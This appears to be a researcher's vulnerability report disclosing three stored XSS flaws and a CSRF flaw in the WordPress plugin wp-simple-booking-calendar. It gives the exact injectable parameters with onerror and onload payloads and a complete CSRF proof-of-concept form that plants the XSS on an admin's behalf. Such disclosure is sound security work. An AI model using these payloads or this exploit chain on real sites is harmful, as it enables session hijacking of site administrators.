 Well ,sir ,I just found Stored-XSS bugs and a CSRF bug here.

#### Stored-XSS

##### Stored-XSS at extras

When the user click the "extras" link，edit something and save changes， he'll post some data to:

```
http://localhost/wordpress/wp-admin/admin.php?page=wpdevart-extras
```


But when I pentest the  parameters, I found when I write something into this point, it does not filter well.

Weak data parameter:

```
extra_field1[items][field_item1][price_percent]=\"><img src=x onerror=console.log(/xss/)><\"
```

Here we got a low privilege role like a editor user：

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/wp-simple-booking-calendar/extra-xss1.png)

When the other users or the admin tried to edit the shared page, we'll get the users' cookie easily, or do something more evilly.

Here I login in the panel as the admin user, and visit the page with the stored-xss content.

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/wp-simple-booking-calendar/extra-xss2.png)



##### Stored-XSS at themes

When the user click the "extras" link，edit something and save changes， he'll post some data to:

```
http://localhost/wordpress/wp-admin/admin.php?page=wpdevart-themes
```


But when I pentest the  parameters, I found when I write something into this point, it does not filter well.

Weak data parameter:

```
sale_conditions[count][]='"><svg/onload=console.log(/xss2/)><'"
```

Here we got a low privilege role like a editor user：

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/wp-simple-booking-calendar/themes-xss1.png)

When the other users or the admin tried to edit the shared page, we'll get the users' cookie easily, or do something more evilly.

Here I login in the panel as the admin user, and visit the page with the stored-xss content.

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/wp-simple-booking-calendar/themes-xss2.png)


##### Stored-XSS at forms

When the user click the "extras" link，edit something and save changes， he'll post some data to:

```
http://localhost/wordpress/wp-admin/admin.php?page=wpdevart-forms
```


But when I pentest the  parameters, I found when I write something into this point, it does not filter well.

Weak data parameter:

```
form_field5[label]=Message'"><svg/onload=console.log(/xss3/)><'"
```

Here we got a low privilege role like a editor user：

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/wp-simple-booking-calendar/form-xss1.png)

When the other users or the admin tried to edit the shared page, we'll get the users' cookie easily, or do something more evilly.

Here I login in the panel as the admin user, and visit the page with the stored-xss content.

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/wp-simple-booking-calendar/form-xss2.png)

#### CSRF

Well, the stored-xss here need to combined with a csrf bug. Because no csrf protection here, we can cheat the admin user to visit the evil html on the evil site.

POC:

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost/wordpress/wp-admin/admin.php?page=wpdevart-forms" method="POST">
      <input type="hidden" name="title" value="test123" />
      <input type="hidden" name="save" value="Save" />
      <input type="hidden" name="form&#95;field3&#91;type&#93;" value="text" />
      <input type="hidden" name="form&#95;field3&#91;name&#93;" value="form&#95;field3" />
      <input type="hidden" name="form&#95;field3&#91;label&#93;" value="Email" />
      <input type="hidden" name="form&#95;field3&#91;isemail&#93;" value="on" />
      <input type="hidden" name="form&#95;field4&#91;type&#93;" value="text" />
      <input type="hidden" name="form&#95;field4&#91;name&#93;" value="form&#95;field4" />
      <input type="hidden" name="form&#95;field4&#91;label&#93;" value="Phone" />
      <input type="hidden" name="form&#95;field5&#91;type&#93;" value="textarea" />
      <input type="hidden" name="form&#95;field5&#91;name&#93;" value="form&#95;field5" />
      <input type="hidden" name="form&#95;field5&#91;label&#93;" value="Message&apos;&quot;&gt;&lt;svg&#47;onload&#61;console&#46;log&#40;&#47;xss3&#47;&#41;&gt;&lt;&apos;&quot;" />
      <input type="hidden" name="task" value="save" />
      <input type="hidden" name="id" value="3" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

In a word, if the other user could be cheated to visit my evil html on my site, or I just a low privilege role to edit something in the shared page, I can get other users' cookie easily, or do something more evilly.


Well,  by the way, I just test the bug in the wordpress 4.9.1 and the latest version of the wp-plugin wp-simple-booking-calendar.